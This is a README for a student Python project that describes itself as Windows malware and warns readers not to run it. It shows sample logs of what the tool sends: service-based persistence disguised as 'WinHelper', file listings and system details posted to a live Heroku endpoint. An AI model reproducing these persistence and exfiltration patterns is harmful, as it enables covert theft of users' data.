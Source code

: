 # Fluffy Paws

A project for Estonian IT College I719-Fundamentals-of-Python class.


# Important!
This is a Windows malware it will send your data to a live server.

Please don't use it!


# Information sent to server

    {"kind"=>"Log", "data"=>["2017-03-15 21:59:18 INFO Goliath On line...", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup), skipping", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\Windows\\system32\\config\\systemprofile\\Documents), skipping", "2017-03-15 21:59:19 DEBUG Launching a subprocess: \"sc create SuperAwesomeWindowsHelper\nbinPath= \"C:\\Windows\\system32\\config\\systemprofile\\Documents\\fluffypaws.exe\"\nDisplayName= \"WinHelper\"\nstart= auto\"", "2017-03-15 21:59:49 DEBUG Subprocess return code: None", "2017-03-15 21:59:49 INFO Subprocess finished", "2017-03-15 21:59:49 INFO Started dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 INFO Finished dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 DEBUG Rows of data (1)", "2017-03-15 21:59:51 DEBUG Sending data to (https://tranquil-caverns-83807.herokuapp.com/json)", "2017-03-15 21:59:52 DEBUG Json sent, response (200)", "2017-03-15 21:59:52 INFO Sending log to server", "2017-03-15 21:59:52 DEBUG End of loop, will wait for 3600 seconds"]}
    {"file_data"=>{"file_data"=>{"data"=>[{"files"=>[{"name"=>"desktop.ini", "stats"=>[33206, 281474976793944, 136187296, 1, 0, 0, 402, 1467218973, 1467218973, 1467218973]}, {"name"=>"fluffypaws.exe", "stats"=>[33279, 1407374883646712, 136187296, 1, 0, 0, 6514135, 1489607864, 1489607864, 1489607864]}], "folder"=>"C:\\Windows\\system32\\config\\systemprofile\\Documents"}], "kind"=>"User path data"}}, "ip"=>"1.1.1.1", "pc_data"=>{"data"=>{"Name"=>"erik-PC", "System"=>"Windows", "Version"=>"6.1.7601", "Machine"=>"x86", "Release"=>"7", "Processor"=>"x86 Family 6 Model 69 Stepping 1, GenuineIntel"}, "kind"=>"PC info"}}


# Installation
Don't!
For testing purposes use Windows virtual machine then clone this repo and run fluffypaws[dot]py in console.


To create binary [pyinstaller](https://pyinstaller.readthedocs.io) can be used.

